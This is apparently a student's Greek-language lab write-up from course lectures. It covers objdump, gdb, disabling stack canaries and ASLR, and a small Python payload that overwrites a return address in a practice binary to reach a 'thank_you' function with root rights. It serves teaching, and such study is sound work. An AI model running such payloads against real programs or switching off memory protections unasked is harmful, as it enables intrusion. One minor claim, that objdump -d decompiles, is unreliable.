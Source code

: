 # Διαλέξεις και Buffer Overflow Attack

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=c9554f73)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=5ddddcb3)

## Περιεχόμενο

Στις παραπάνω διαλέξεις εξετάσαμε:

1. **Εισαγωγή στην x86 Assembly**: Μια σύντομη επισκόπηση της αρχιτεκτονικής και των βασικών εντολών.
2. **Ανάλυση προγραμμάτων μέσω εργαλείων**:
   - Χρήση του `objdump` για αποσυναρμολόγηση (disassembly) εκτελέσιμων αρχείων.
   - Χρήση του `gdb` για δυναμική ανάλυση και debugging.
3. **Εκμετάλλευση Buffer Overflow**:
   - Πώς μπορούμε να εκμεταλλευτούμε σφάλματα διαχείρισης μνήμης.
   - Επιθέσεις buffer overflow και τρόποι πρόκλησής τους.

Οι παραπάνω τεχνικές αποτελούν θεμελιώδεις αρχές στην ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού.

---

## Εισαγωγή στο objdump και ανάλυση του buf0

Το `objdump` είναι ένα εργαλείο που μας επιτρέπει να αναλύσουμε το περιεχόμενο εκτελέσιμων αρχείων και να δούμε τη δομή τους. Η επιλογή `-d` στο `objdump` σημαίνει decompile και χρησιμοποιείται για την αποσυναρμολόγηση ενός εκτελέσιμου αρχείου.

Όταν χρησιμοποιούμε το `objdump -d buf0`, μπορούμε να βρούμε τη διεύθυνση της συνάρτησης `thank_you`. Ωστόσο, αυτές οι διευθύνσεις είναι relative προς τη βάση του εκτελέσιμου αρχείου και μπορεί να αλλάξουν κατά την εκτέλεση λόγω του ASLR (address space layout randomization).

Για να βρούμε τη σωστή διεύθυνση κατά την εκτέλεση του προγράμματος, πρέπει να χρησιμοποιήσουμε το `gdb`.

### Βήματα για να βρούμε τη σωστή διεύθυνση της συνάρτησης `thank_you`:

1. **Χρήση του `objdump`**:

   ```sh
   objdump -d buf0 | grep thank_you
   ```

   Αυτό θα επιστρέψει τη relative διεύθυνση της συνάρτησης στο εκτελέσιμο.

2. **Χρήση του `gdb` για να βρούμε τη πραγματική διεύθυνση**:

   ```sh
   gdb ./buf0
   break main
   run <όρισμα>
   info address thank_you
   ```

   Αυτή η εντολή θα επιστρέψει την πραγματική διεύθυνση της συνάρτησης στη μνήμη κατά την εκτέλεση του προγράμματος.

---

### Χρήσιμες Εντολές `gdb`

- Προβολή της τιμής στη διεύθυνση που δείχνει ο δείκτης στοίβας:

  ```sh
  x/x $rsp  # Για x86_64, προβολή 4 bytes (word)
  x/gx $rsp  # Για x86_64, προβολή 8 bytes (giant word)
  x/x $esp  # Για x86
  ```

  Η εντολή `x/x $rsp` θα εμφανίσει την τιμή στη διεύθυνση που δείχνει ο δείκτης στοίβας (stack pointer) ως word (4 bytes). Για να δείτε 8 bytes (64 bits), χρησιμοποιήστε την εντολή `x/gx $rsp`.

- Προβολή της τιμής ως string:

  ```sh
  x/s $rsp  # Για x86_64
  x/s $esp  # Για x86
  ```

- Προβολή των 5 πρώτων τιμών του δείκτη στοίβας:

  ```sh
  x/5x $rsp  # Για x86_64 ή x86
  ```

- Αν μία από αυτές τις τιμές είναι δείκτης σε string:

  ```sh
  x/s 0x7ffff7b0  # Αν 0x7ffff7b0 είναι διεύθυνση σε string
  ```

- Προβολή της εντολής που δείχνει ο δείκτης εντολών:

  ```sh
  x/i $rip  # Για x86_64
  x/i $eip  # Για x86
  ```

- Προβολή των επόμενων 5 εντολών από την τοποθεσία του δείκτη εντολών:

  ```sh
  x/5i $rip  # Για x86_64
  x/5i $eip  # Για x86
  ```

- Αποσυναρμολόγηση της συνάρτησης `main`:

  ```sh
  disas main
  ```

- Προβολή των περιοχών μνήμης του προγράμματος:

  ```sh
  info proc mappings
  ```

- Τοποθέτηση σημείου διακοπής σε συγκεκριμένη διεύθυνση:

  ```sh
  break *0xADDRESS
  ```

  Για παράδειγμα, αν θέλετε να τοποθετήσετε ένα σημείο διακοπής στη διεύθυνση `0x5555555551c5` μέσα στη συνάρτηση `thank_you`, χρησιμοποιήστε την εντολή:

  ```sh
  break *0x5555555551c5
  ```

---

## Απενεργοποίηση Μηχανισμών Προστασίας Στοίβας

Για να απενεργοποιήσω τους μηχανισμούς προστασίας στοίβας όπως τα stack canaries και το ASLR, ακολουθήστε τα παρακάτω βήματα:

### Απενεργοποίηση Stack Canaries

Επαναμεταγλωττίστε το ευάλωτο πρόγραμμα χωρίς προστασία στοίβας. Αν έχετε τον πηγαίο κώδικα, χρησιμοποιήστε την επιλογή `-fno-stack-protector` με το `gcc`:

```sh
gcc -fno-stack-protector -o vulnerable_program source_code.c
```

### Απενεργοποίηση ASLR

Προσωρινή απενεργοποίηση του ASLR:

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Για να επανενεργοποιήσετε το ASLR μετά την ολοκλήρωση, εκτελέστε:

```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## Δημιουργία του Exploit

Για να δημιουργήσω το exploit, ακολούθησα τα παρακάτω βήματα:

1. **Ανάλυση της Στοίβας με το `gdb`**:

   - Έτρεξα το πρόγραμμα με `gdb` και τοποθέτησα ένα breakpoint μετά το `strcpy` στη συνάρτηση `print`.
   - Χρησιμοποίησα την εντολή `x/16gx $rsp` για να δω τις 16 τελευταίες μεγάλες λέξεις των 64 bytes που έχει αποθηκευμένη η στοίβα.

   ```sh
   gdb ./buf0
   break *print+20  # Breakpoint μετά το strcpy
   run <όρισμα>
   x/16gx $rsp
   ```

2. **Εύρεση του Offset**:

   - Τοποθέτησα επίτηδες την τιμή `0xffffffff` στο buffer για να δω γρήγορα πού αποθηκεύεται.
   - Χρησιμοποίησα την εντολή `disas main` για να βρω τη διεύθυνση της επόμενης εντολής μετά το `call`.
   - Υπολόγισα το offset από την αρχή του buffer μέχρι τη διεύθυνση επιστροφής.

3. **Δημιουργία του Payload**:

   - Δημιούργησα ένα Python script για τη δημιουργία του payload.

   ```python
   // filepath: /CTF-Journal/Notes/buffer_overflow/augerinos_lecture4/exploit.py
   import sys
   offset = b"AAAAAAAA" * 9
   buffer = offset + b"\xc9\x51\x55\x55\x55\x55\x00\x00"  # 0x5555555551c9

   sys.stdout.buffer.write(buffer)
   ```

4. **Εκτέλεση του Exploit**:

   - Έτρεξα το πρόγραμμα με το payload.

   ```sh
   python3 exploit.py > payload
   sudo ./buf0 $(cat payload)
   ```

Με αυτά τα βήματα, κατάφερα να εκμεταλλευτώ το buffer overflow και να εκτελέσω τη συνάρτηση `thank_you`, αποκτώντας root πρόσβαση.

---

## Συμπέρασμα

Αν και χρειάστηκε να απενεργοποιήσω μηχανισμούς προστασίας και να εκτελέσω το πρόγραμμα με δικαιώματα root, αυτή η άσκηση ήταν πολύτιμη για την κατανόηση των buffer overflow επιθέσεων. Μέσα από αυτή τη διαδικασία, έμαθα πώς να αναλύω τη μνήμη ενός προγράμματος, να βρίσκω ευπάθειες και να δημιουργώ exploits. Αυτές οι γνώσεις είναι θεμελιώδεις για την ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού. Επιπλέον, η κατανόηση των μηχανισμών προστασίας και πώς να τους παρακάμπτουμε είναι κρίσιμη για την ανάπτυξη πιο ασφαλών συστημάτων στο μέλλον.
